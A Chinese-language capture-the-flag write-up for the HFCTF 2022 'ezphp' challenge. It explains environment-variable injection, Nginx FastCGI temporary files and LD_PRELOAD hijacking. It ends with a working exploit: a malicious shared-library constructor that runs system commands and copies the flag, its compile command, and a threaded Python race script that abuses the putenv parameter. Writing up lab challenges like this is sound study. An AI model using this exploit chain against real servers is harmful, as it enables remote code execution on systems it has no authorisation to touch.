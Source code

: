 ```yaml
---
id: hf2022-ezphp
title: hf2022-ezphp
---
```




## 前言

当时是没做出来，一直在看P神的这篇：[我是如何利用环境变量注入执行任意命令 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html#0x06-bash_env)

后来发现wp都看不懂！！就打算复现学习一下，属于是那段时间没打比赛拉下的东西

## 题目环境

1. docker环境[My-CTF-Challenges/hfctf-2022/ezphp at master · waderwu/My-CTF-Challenges (github.com)](https://github.com/waderwu/My-CTF-Challenges/tree/master/hfctf-2022/ezphp)

   这里我用的docker file搭了个本地，把文件解压到目录下

   下面是当时的history，最后访问vps映射的端口就行了
   ps：url要加上index.php（因为优先选择了存在的index.nginx-debian.html）

   ```
   docker build .
   docker images
   docker run -d -p 8899:80 --name testphp d7ffa14d954b
   docker ps
   docker exec -it 2d43 /bin/bash
   ```
   
2. 也可以去pwnthebox或者buu的环境：

   - [题库 | PwnTheBox - Hacking Platform - CTF Platform](https://ce.pwnthebox.com/challenges?q=ezphp&page=1&id=1906)
   - [BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#[HFCTF2022]ezchain)

## 正文

题目如下：

```php
<?php (empty($_GET["env"])) ? highlight_file(__FILE__) : putenv($_GET["env"]) && system('echo hfctf2022');?>
```

看到就想起了P神的这篇：

> [我是如何利用环境变量注入执行任意命令 | 离别歌](https://www.leavesongs.com/PENETRATION/how-I-hack-bash-through-environment-injection.html#0x06-bash_env)
> php中调用system本质上是调用了`sh -c`
>
> 在不同操作系统中：
>
> - debian：sh→dash
> - centos：sh→bash
>
> 总结：
>
> - `BASH_ENV`：可以在`bash -c`的时候注入任意命令
> - `ENV`：可以在`sh -i -c`的时候注入任意命令
> - `PS1`：可以在`sh`或`bash`交互式环境下执行任意命令
> - `PROMPT_COMMAND`：可以在`bash`交互式环境下执行任意命令
> - `BASH_FUNC_xxx%%`：可以在`bash -c`或`sh -c`的时候执行任意命令

不过本题的环境是debian系统，也就是P神也未完美解决的dash，然后有很多师傅都跑去审dash源码

> 我看了两晚上dash代码，几乎要给我看吐了，我很难理解为什么代码里要用这么多goto。最后还是很遗憾，虽然找到了两个可以进行命令注入的环境变量，但它们都不能在sh -c时触发。

看了wp，本题涉及到的是另外的利用点：

- Nginx临时文件 
  [hxp CTF 2021 - A New Novel LFI - 跳跳糖](https://tttang.com/archive/1384/)
  [0xbb - PHP LFI与Nginx协助 (bierbaumer.net)](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)

  - 当 Nginx 接收来自 FastCGI 的响应时，若大小超过限定值 (大概 32Kb) 不适合以内存的形式来存储的时候，一部分就会以临时文件的方式保存到磁盘上。在 `/var/lib/nginx/fastcgi` 下产生临时文件。
  - 但是Nginx 创建文件就立即删除了，不过Nginx删除的`/var/lib/nginx/fastcgi`下的临时文件，还可以在`/proc/pid/fd/`下找到
    （如果打开一个进程打开了某个文件，某个文件就会出现在 `/proc/pid/fd/` 目录下，而如果该文件没被关闭的情况下就被删除，仍能在对应的`/proc/pid/fd`下找到并读取文件内容）

  

- LD_PRELOAD加载SO

  [通过LD_PRELOAD绕过disable_functions - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/86544746)

  - so文件就是c/c++编译出来的动态链接库，也叫共享库

  - 程序在动态链接时需要一个动态链接库，作用在于当动态库中的函数发生变化对于可执行程序来说时透明的，可执行程序无需重新编译，方便程序的发布/维护/更新

  - LD_PRELOAD就是这样一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。

    **那就可以构造恶意的so文件，其中是重写的系统函数，当执行代码函数，就会调用恶意库中的系统函数**，从而实现任意系统命令执行，这就需要条件：

    - 能够上传自己的.so文件
    - 能够控制环境变量的值（设置LD_PRELOAD变量），比如putenv函数

  

那么本题思路如下：

1. 请求一个过大的的文件使得Nginx产生临时文件缓存
2. 传一个填满脏数据的 so文件
3. 遍历 pid 以及 fd ，竞争 LD_PRELOAD 包含 proc目录下的临时文件 从而实现 LFI

> exp.c
>
> ```c
> #include <stdlib.h>
> #include <stdio.h>
> #include <string.h>
> 
> __attribute__ ((__constructor__)) void preload (void){
>   unsetenv("LD_PRELOAD");
>   system("id");
>   system("cat /flag > /var/www/html/flag");
> }
> ```
>
> 编译为so
>
> ```sh
> gcc -shared -fPIC exp.c -o exp.so
> ```
>
> 竞争脚本（这里用的是r3师傅写的[2022 虎符CTF Writeup by 唯独你没懂 (qq.com)](https://mp.weixin.qq.com/s?__biz=Mzg2MjYxMjAzMg==&mid=2247483903&idx=1&sn=26b6af39bc1bf9a0055c0be38a666472&chksm=ce047ed0f973f7c6b7a2ee4a300d10d22cf2a6e38fcbe5190011c8f08b14da9a30db2bf11061&mpshare=1&scene=23&srcid=0321x9PydhpbLJpuag0EBm4W&sharer_sharetime=1647861577180&sharer_shareid=3679f20229d72930158c21ee7f573b1e#rd)）
>
> ```python
> import  threading, requests
> 
> url="https://xxx/"
> nginx_workers = [10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25]
> done = False
> 
> 
> def uploader():
>     print('[+] starting uploader')
>     with open("exp.so","rb") as f:
>         data = f.read()
>     while not done:
>         requests.get(url, data=data + (16 * 1024 * 'A').encode())
> for _ in range(16):
>     t = threading.Thread(target=uploader)
>     t.start()
> def bruter(pid):
>     global done
>     while not done:
>         print(f'[+] brute loop restarted: {pid}')
>         for fd in range(4, 32):
>             try:
>                 requests.get(url, params={
>                     'env': f"LD_PRELOAD=/proc/{pid}/fd/{fd}"
>                 })
>             except:
>                 pass
> 
> 
> for pid in nginx_workers:
>     a = threading.Thread(target=bruter, args=(pid, ))
>     a.start()
> 
> ```
>
> 这里因为要遍历pid和fd，所以会久一些。
> 如果是搭在docker里，就可以直接找nginx worker看一下
>
> ```
> ps -ef |grep nginx |grep -v grep
> ```



